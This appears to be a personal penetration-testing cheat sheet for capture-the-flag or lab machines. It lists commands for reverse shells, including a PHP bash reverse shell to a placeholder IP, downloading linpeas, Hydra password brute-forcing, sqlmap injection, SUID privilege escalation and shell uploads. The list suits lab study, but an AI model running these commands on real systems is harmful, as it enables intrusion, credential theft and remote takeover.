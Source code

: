 1. wget http://192.168.2.4/linpeas.sh - Downloading linpeas on the target machine
2. python3 -m http.server 80 - Setting up a server
3. nc -lvnp 4444 - Set netcat listener
4. python -c 'import pty; pty.spawn("/bin/sh")' - upgrading shell
5. find / -perm /4000 -type f 2>/tmp/2 - checking SUID
6. sudo netdiscover -i eth0 - Checking Devices on the network
7. nc -nvlp 1234 - Set netcat listener
8. https://gtfobins.github.io/ -- For privilage escalation
9. python3 -c 'import pty;pty.spawn("/bin/bash")' -- upgrading shell
10. sudo -l -- Check User Permissions
11. hydra -L <userlist> -P <passwordlist> ssh://<ipaddress> (can add T4 to make it faster and -f to stop
    the scan after the password is found.
12. sudo -l
13. sudo su
14. ls -la
15. hydra -L <wordlist> -P /usr/share/wordlists/amass/all.txt -e nsr ftp://<ftp>
16. hydra -l <username> -P /path/to/wordlist.txt <target> http-post-form "/textpattern/textpattern:username=^USER^&password=^PASS^:F=Login failed" -V -f
17. zip2john file.zip
18. <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'");
    ?>
19.find / -perm -u=s -type f 2>/dev/null
20. gobuster dir -u http://192.168.2.15 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x .php -t 20 -o gobuster_scan.txt
21. hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh
22. nmap -p 80 192.168.0.181 --script http-put --script-args http-put.url='test/shell.php',http-put.file='shell.php' = for uploading a document.
23. curl -v -X OPTIONS HTTP://192.168.2.23 == for checking permissions on a webpage
24. cat /etc/passwd
25. uname -r
26. scp -P 22222 Summer@192.168.2.33:/home/Morty/journal.txt.zip /tmp == downloading a file via ssh
27. dirb http://192.168.2.35 Drupal.txt
28. find . -exec /bin/sh \; -quit == if find is SUID this can be used to escalate
29. smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.2.25 - smtp user enumeration
30. ffuf -u 'http://blackwidow/company/started.php?file=FUZZ' -w /home/kali/Downloads/LFI-LFISuite-pathtotest-huge.txt -c -ic -r -fs 0 == for bruteforcing LFI's in     a url
31. ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa stupiduser@192.168.2.38 == for older ssh login
32. sqlmap -u "http://192.168.2.38/phpmyadmin/" --data="pma_username=admin&pma_password=test" --level=5 --risk= --dbms=mysql --technique=B --batch = for sql            injection brute force
33. john --wordlist=rockyou.txt hash.txt == john the ripper hash crack command
34. https://ctftoolkit.com/enumeration == assists with enumeration
35. https://emn178.github.io/online-tools/sha1.html == for encryption and decryption
36. https://copy.sh/brainfuck/ == Brainfuck interpreter

